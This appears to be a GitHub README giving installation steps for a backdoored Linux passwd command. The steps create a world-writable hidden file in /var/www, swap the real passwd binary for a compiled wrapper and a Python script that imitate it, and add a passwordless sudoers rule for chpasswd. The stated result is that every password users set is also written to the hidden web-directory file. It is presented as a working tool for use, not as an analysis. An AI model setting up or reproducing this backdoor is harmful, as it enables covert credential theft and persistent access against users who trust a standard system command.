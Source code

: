 ## Backdoored passwd binary

First you must create a `...` file in `/var/www`.

`touch /var/www/...`

Next make `root` own the file and give it `777` permissions. 

`chown root:root /var/www/...`
`chmod 777 /var/www/...`

Backing up the origin passwd binary is recommended.

`mv /usr/bin/passwd /usr/bin/passwd.orig`

You will now need to move the compiled c binary to replace the original.

`mv passwd /usr/bin`

Give `root` ownership and give the file `755` permissions.

`chown root:root /usr/bin/passwd`
`chmod 755 /usr/bin/passwd`

Next move the `zpasswd` python script into `/usr/bin`

`mv zpasswd /usr/bin`

You will also need to give `root` ownership and `755` permissions.

`chown root:root /usr/bin/zpasswd`
`chmod 755 /usr/bin/zpasswd`

The last part that you have to do because I have not found a way to get around it, is that you must add a Cmnd_Alias in the `/etc/sudoers` file so that when the new username/password is passed to chpasswd, they will not have to enter their password to do sudo and run chpasswd.

This can be done by typing `visudo` and going down to the Cmnd_Alias section, and adding the line:

`Cmnd_Alias CHPASSWD=/usr/bin/chpasswd`

then adding the user as a sudoer to run that command without a password under User aliases

`<username> ALL=NOPASSWD: CHPASSWD`

and saving it.

Now when users run the `passwd` command, they will run the C compiled binary, which will pass over to the `zpasswd` python script, which will emulate the real passwd binary, but will add the new credentials to `/var/www/...` and then finally change the password of the user.
